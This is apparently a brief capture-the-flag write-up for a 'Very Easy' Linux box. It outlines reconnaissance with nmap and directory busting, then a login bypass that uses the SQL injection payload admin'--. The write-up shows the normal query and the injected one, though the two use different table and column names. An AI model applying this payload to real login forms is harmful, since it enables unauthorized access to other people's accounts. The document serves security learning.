 # Intro
| Dificulty | OS | Start Date | End Date | Help? |
|---|---|---|---|---|
| Very Easy | Linux | 10/05/2022 | 10/05/2022 | Yes |


# Thought process
1. View running services with nmap.
2. Check if there were subdirectories with the dirbust.
3. Since it was a LogIn, see if SQL Injection can be done.


# Resolution
To Login a Web is just a SELECT to the database, but if in the username you write **admin'--** the rest of the query is commented out and does not look for a password. SQL Injection. 

> Normal Login Query
```sql
SELECT * FROM users WHERE name='admin' and password='123456aA'
```

> Query with SQL Injection
```sql
SELECT * FROM members WHERE username = 'admin'--' AND password = '123456aA'
```


# Links
[SQL Injection Cheat Sheet](https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/)


# Tags
#SQL #SQL_Injection
